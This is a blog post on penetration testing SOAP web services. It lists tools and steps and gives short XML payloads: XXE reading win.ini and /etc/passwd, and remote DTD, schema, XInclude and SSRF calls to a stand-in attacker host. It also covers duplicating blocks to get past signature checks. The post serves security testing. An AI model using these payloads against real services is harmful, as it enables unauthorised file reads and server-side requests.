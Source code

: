```yaml
---
layout: post
title: "Too much SOAP will not clean you"
date: "2017-02-24 17:51:42 +0100"
category: blog 
link:
filename:
thumbnail:
---
```

To much SOAP will not clean but kill you - no seriously within the last
months I did way to many pentests of SOAP web services. It is 
nothing new and SOAP service have been around for quite some years - 
however a simple Google search will make you read a couple of blog posts 
and pressos from different conferences. Here, I would like to summarize 
what I have read and how I do pentests of web services: 


What tools do I use? There is nothing fancy in the list - just the regular
web application pentesters toolkit:

* NMAP
* Burp / ZAP
* SQLmap
* DirBuster or hand written bash/curl and python scripts
* SOAP-UI (if projects are available)
* Firefox Plugins (if no projects are available)
	* RestClient
	* SOAPClient


How do I do it? This are basically the same steps you would take for web
applications as well:

Scan the server
------------------
A regular Nmap scan will do it. This is not specific to web services but
it turned out to be useful and lead to many surprises for the developers.
If you encounter a port that should not be open - put it as an URL in your
browser and take a closer look. It surprising how many things you find
by simply opening such ports in a browser.

Scan for so far unknown end points / services
------------------------------------------------
This is a bit tricker. DirBuster may be a good help depending on the
service design, underlying technology and domain you are working in. It can
also be a complete waste of time. Unfortunately I have not found a strict
rule to stick to - so you will need to try for yourself. More often these
so far unknown end points offer development versions or feature branches
with more or less security. It always worth digging deeper, if you find
one.

Get to know the service methods and how they are related
-------------------------------------------------------
Start the SOAP UI test cases and run them through Burp or ZAP as you like.
The most important step is to follow the succession of requests closely.

- How does the authentication work?
- Is it needed / checked in every service call?
- Also study the WSDL - are all methods called within the provided test cases?
- Do the passive scans of Burp or ZAP provide you with new ideas?


Time to dig depper
------------------
Once you know how every thing is working, it is time to look for spots to 
break it. First of all take a look a classical injection attacks like:
SQLi or XSS. Normally I do a couple of fuzzing rounds with different
settings to test for these vulns:

* simply replace the real value
* replace the real value url encoded
* employ the  <![CDATA[ real value ]]> tag
* last but not least - sqlmap

Especially the last one can be very useful since its content get kind of
ignored by the xml parsers.


A classic becoming hip again - external entities:
--------------------------------------------------
XML allows you to use references which can either be abused to create an
endless loop or point to file on the servers file system. In case you
work on the later - ensure that the modified parameter is either reflected
or that you know the appropriate service method to retrieve the resolved
reference. Here is a short example:

```XML
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE updateProfile [<!ENTITY file SYSTEM "file:///c:/windows/win.ini">]>
<updateProfile>
	<firstname>Joe</firstname>
	<lastname>&file;</lastname>
	...
</updateProfile>
```

Doing it old school
-------------------
DTD are an old way of defining and injecting elements. Basically they can
be abused the same way as the external entities described above. In the 
following example loading of an additional file is presented:

```XML
<!ENTITY % an-element "<!ELEMENT mytag (subtag)>">
<!ENTITY % remote-dtd SYSTEM "http://ip_of_your_choice/some-file.dtd">

<some_random_tag> %an-element; </some_random_tag>
<other_tag> %remote-dtd; </other_tag>
```


Extending name space definitions
--------------------------------
Name spaces help to organize data structures. However they also allow you
to specify an URL from where the definition shall be loaded. If your XML
parser is not configured to ignore these statements you can load any schema
definition you like. Keep in mind that by changing that you can include
all tags you previously defined in your schema definition. Here is a simple
example:

```XML
<roottag xmlns="http://schema/namespace/primary"
xmlns:secondaryns="http://schema/namespace/secondary"
xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xsi:schemaLocation="http://schema/namespace/primary
http://your_servers_ip_address/your-file1.xsd
http://schema/namespace/secondary
http://your_servers_ip_address/your-file2.xsd">

	<p>
		<secondaryns:s>
			...
		</secondaryns:s>
	</p>
</roottag>
```

SSRF - an other way to make it call home
----------------------------------------
Similar to the just described extension of name spaces you can use SSRF. 
Besides calling home to URLs of your choice you can as well try to include
files of your choice. However it hardly works with current XML parsers and 
their default configuration.

```XML
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE roottag PUBLIC "-//VSR//PENTEST//EN" "http://your_servers_ip_addess?ssrf">
<roottag>not an entity attack!</roottag>

<!DOCTYPE roottag PUBLIC "-//VSR//PENTEST//EN" "file:////etc/passwd">
<roottag/>
``` 


Include-Tags
------------
Include tags are very helpful as well - not only for the programmer, but
also for the attacker. Often you can simply extend the name space 
definitions and the XInclude. If the schema validation is not to strict
you may add any file you like to the response.

```XML
<?xml version="1.0" encoding="utf-8"?>
<document xmlns:xi="http://www.w3.org/2001/XInclude">
	<content>Very special content that is protected by copyright.</content>
	<footer><xi:include href="http://your_ip_address/your_file.xsd"/></footer>
</document>
```


Content Duplication / Signature Wrapping
----------------------------------------
It is not strictly signature wrapping what I will describe here since
in my examples there are so signed messages or signed parts within a 
message. I was really surprised that this worked more often than expected.
This attack boils down to changing the response by simply duplicating
parts of the request and changing some values. Imagine the following:
You are testing a web service to update the customers address. Instead
of sending one block of address data you will send two. The first one
is left as it was. The second one you modify to the address you would
like to be stored. Send it and watch what happens. If schema validation
is active you will be stopped right away. If not most XML parsers simply
turn the last block of address data into the appropriate objects and
the services continues working with them.

This approach can also get applied to signed message parts. If the 
validation is sluggish there is a fair chance to get the signature 
validated against the original block and your modified unsigned block
will be processed by the web service.


So, keep it clean and use your SOAP wisely :)

Cheers!
